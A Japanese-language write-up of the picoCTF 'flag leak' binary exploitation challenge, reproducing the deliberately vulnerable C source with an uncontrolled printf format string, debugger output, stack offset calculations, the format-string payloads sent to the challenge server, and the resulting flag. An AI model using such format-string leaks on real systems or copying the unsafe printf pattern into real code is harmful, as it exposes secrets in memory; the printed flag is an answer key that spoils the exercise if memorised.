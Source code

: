 # flag leak : Binary Exploitation

Story telling class 1/2  
I'm just copying and pasting with this [program](vuln). What can go wrong? You can view source [here](vuln.c). And connect with it using:  
`nc saturn.picoctf.net 52043`

Author : Neel Bhavsar

# Solution

とりあえず、実行してみる。
```
$ nc saturn.picoctf.net 52043
Tell me a story and then I'll tell you one >> %p%p%p%p%p%p%p%p%p%p
Here's a story - 
0xff81f0900xff81f0b00x80493460x702570250x702570250x702570250x702570250x702570250xffffff00(nil)
```
ソースコードを確認する。
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

void readflag(char* buf, size_t len) {
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,len,f); // size bound read
}

void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story);
   printf("Here's a story - \n");
   printf(story);
   printf("\n");
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}
```
printf(story)のstoryのアドレスからreadflag(flag, FLAGSIZE)のflagのアドレスまでの差分をとて、%n$pでflagの内容を出力する。  
ローカルで実行する場合は、vulnと同ディレクトリにflag.txtを配置する必要があることに注意。
```
$ checksec vuln
[*] Checking for new versions of pwntools
    To disable this functionality, set the contents of /home/colza-picoctf/.cache/.pwntools-cache-3.10/update to 'never' (old way).
    Or add the following lines to ~/.pwn.conf or ~/.config/pwn.conf (or /etc/pwn.conf system-wide):
        [update]
        interval=never
[*] You have the latest version of Pwntools (4.13.1)
[*] '/home/colza-picoctf/vuln'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x8048000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```
storyのアドレスを探す。
```
 804939d:       8d 85 38 ff ff ff       lea    eax,[ebp-0xc8]
 80493a3:       50                      push   eax
 80493a4:       e8 47 fd ff ff          call   80490f0 <printf@plt>
```
```
   0x8049392 <vuln+95>     call   puts@plt                    <puts@plt>

   0x8049397 <vuln+100>    add    esp, 0x10             ESP => 0xffffced0 (0xffffcec0 + 0x10)
   0x804939a <vuln+103>    sub    esp, 0xc              ESP => 0xffffcec4 (0xffffced0 - 0xc)
 ► 0x804939d <vuln+106>    lea    eax, [ebp - 0xc8]     EAX => 0xffffced0 ◂— 'aaaaaaaaaaaaaaaaaaaaa'
```
storyのアドレスが0xffffced0と分かる。  
flagのアドレスを探す。
```
   0x0804934f <+28>:    push   0x40
   0x08049351 <+30>:    lea    eax,[ebp-0x48]
   0x08049354 <+33>:    push   eax
   0x08049355 <+34>:    call   0x80492b6 <readflag>
```
```
   0x08049318 <+98>:    mov    eax,DWORD PTR [ebp+0xc]
   0x0804931b <+101>:   sub    esp,0x4
   0x0804931e <+104>:   push   DWORD PTR [ebp-0xc]
   0x08049321 <+107>:   push   eax
   0x08049322 <+108>:   push   DWORD PTR [ebp+0x8]
   0x08049325 <+111>:   call   0x8049100 <fgets@plt>
```
```
───────────────────────────────────────────[ DISASM / i386 / set emulate on ]───────────────────────────────────────────
 ► 0x8049351 <vuln+30>    lea    eax, [ebp - 0x48]     EAX => 0xffffcf50 —▸ 0xffffcfb8 —▸ 0xf7ffd020 (_rtld_global) ◂— ...
   0x8049354 <vuln+33>    push   eax
   0x8049355 <vuln+34>    call   readflag                    <readflag>
```
```
 ► 0x8049351 <vuln+30>    lea    eax, [ebp - 0x48]     EAX => 0xffffcf50 —▸ 0xffffcfb8 —▸ 0xf7ffd020 (_rtld_global) ◂— ...
   0x8049354 <vuln+33>    push   eax
   0x8049355 <vuln+34>    call   readflag                    <readflag>
```
flagのアドレスが0xffffcf50と分かる。  
0xffffcf50-0xffffced0=0x80  
32bitであることに留意すると、0x80分のoffsetは`0x80/0x4=0x20=32`である。入力からstoryまでのoffsetが4であり、FLAGSIZEが64であるから36~45を出力させれば良い。
```
$ nc saturn.picoctf.net 52043
Tell me a story and then I'll tell you one >>  %36$p%37$p%38$p%39$p%40$p%41$p%42$p%43$p%44$p%45$p
Here's a story - 
0x6f6369700x7b4654430x6b34334c0x5f676e310x67346c460x6666305f0x3474535f0x395f6b630x326539390x7d343238
```
これをcyberchefでFrom HEXする。
```
ocip{FTCk43L_gn1g4lFff0_4tS_9_kc2e99}428
```
並び替える。

flagが得られた。

`picoCTF{L34k1ng_Fl4g_0ff_St4ck_999e2824}`

# References

https://medium.com/@0xwan/picoctf-2022-flag-leak-writeup-binary-exploitation-8d5194fb36f0

ちなみに以下の方法でもflagが得られる。
```
$ nc saturn.picoctf.net 60294
Tell me a story and then I'll tell you one >> %24$s
Here's a story - 
CTF{L34k1ng_Fl4g_0ff_St4ck_999e2824}
```
